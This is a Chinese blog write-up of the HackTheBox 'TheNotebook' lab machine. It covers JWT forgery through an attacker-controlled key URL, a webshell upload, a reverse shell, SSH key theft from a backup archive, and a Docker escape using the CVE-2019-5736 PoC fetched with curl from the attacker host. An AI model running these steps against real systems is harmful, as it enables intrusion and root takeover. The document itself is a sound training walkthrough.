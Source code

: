 ```yaml
---
layout:     post
title:      HackTheBox TheNotebook
subtitle:   HackTheBox
date:       2021-05-28
author:     heria
header-img: img/post-bg-23.jpg
catalog: true
tags:
---
```


# 

![image-20210528113226567](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528113226567.png)

## 信息收集

nmap -sS -sV -sC 10.10.10.230

![image-20210528113349405](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528113349405.png)

## 渗透

开放22 80 10010端口，查看80端口

![image-20210528113531249](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528113531249.png)

register可以注册用户

![image-20210528114029134](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528114029134.png)

但是注册之后发现用户只能写note

![image-20210528114138575](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528114138575.png)



注册时抓包，注册完之后返回了JWT Token

![image-20210528114912152](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528114912152.png)

![image-20210528115005711](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528115005711.png)



获取到的token信息复制出来

到该站点https://jwt.io/

通过RS256进行解密

![image-20210528130440160](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528130440160.png)



decoded之后发现在header中存在"http://localhost:7070/privKey.key"这样的地址

在payload中存在admin_cap：0的字段，推测为权限设置

私钥地址应该可控，所以我们可以修改权限参数，并修改私钥地址为自己的地址，使得请求合法

执行以下指令生成公私钥

```
openssl genrsa -out rsa_private.pem 2048	#私钥
openssl rsa -in rsa_private.pem -outform PEM -pubout -out rsa_public.pem	#公钥
```

![image-20210528131429317](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528131429317.png)



之后更改私钥地址和权限控制标志，并通过我们之前生成的公私钥进行签名，生成新的合法token

![image-20210528132333838](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528132333838.png)

python开启http服务，是目标机能够访问存放私钥的位置

```
python -m SimpleHTTPServer 9999
```

之后替换掉cookie，刷新页面，发现相比之前多了admin panel此时便是以admin登录的

![image-20210528133604350](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528133604350.png)



后台存在上传文件功能，直接上传一句话配合蚁剑，拿到低权限

![image-20210528134948003](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528134948003.png)

站点会定期删除上传的shell,所以通过msfvenom生成反弹shell的木马，上传后目标机上线msf

![image-20210528142244497](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528142244497.png)



在站点处找到存在备份的提示，并在主机/var/backups中找到了home.tar.gz文件

![image-20210528143250988](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143250988.png)

![image-20210528143344025](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143344025.png)

之后尝试tar -zxvf解压，发现在该文件夹下没有权限，所以将home.tar.gz复制到/tmp下再进行解压操作

![image-20210528143651608](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143651608.png)

找到nosh

![image-20210528143730872](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143730872.png)

并在下面找到ssh私钥

![image-20210528143849911](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143849911.png)

![image-20210528144019815](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528144019815.png)

我们通过cat /etc/passwd发现存在noah的用户，尝试通过ssh密钥对方法登录

![image-20210528143947448](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528143947448.png)

cat 抓取内容，之后复制到kali攻击机

![image-20210528144228797](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528144228797.png)

遇到一个小坑，id_rsa权限过大会导致不安全，最终认证失败，此时只需要chmod 0600 id_rsa就能解决问题

![image-20210528144922454](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528144922454.png)

之后再次执行ssh -i id_rsa noah@10.10.10.230 使用密钥对登录

成功以noah用户登录

![image-20210528145135701](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145135701.png)

拿到user.txt中的flag

![image-20210528145227227](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145227227.png)

## 提权

sudo -l 

![image-20210528145655467](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145655467.png)

docker --version,找到docker版本

![image-20210528145806385](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145806385.png)

之后根据版本信息搜索漏洞

![image-20210528145833307](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528145833307.png)

CVE-2019-5736docker逃逸漏洞

https://github.com/Frichetten/CVE-2019-5736-PoC下载poc,并更改反弹shell语句

![image-20210528150812771](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528150812771.png)

编译，由于kali下未安装go环境，我放到了另外一台centos下进行的编译，最终会生成一个main文件

```
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```

![image-20210528151553329](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528151553329.png)

kali首先开启http服务，供目标机下载main文件

终端执行

```
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
curl ip:port/main -o main
chmod +x main
```

进入容器，将exp置入容器内部

![image-20210528152127269](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528152127269.png)

kali开启监听，再开启一个ssh终端，在原先的终端中执行./main运行exp，后在新终端中执行

```
sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

之后kali就成功获得反弹shell.

![image-20210528152724303](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528152724303.png)

找到root.txt下的flag

![image-20210528153432069](https://raw.githubusercontent.com/heriachen/cloudimg/main/img3/image-20210528153432069.png)

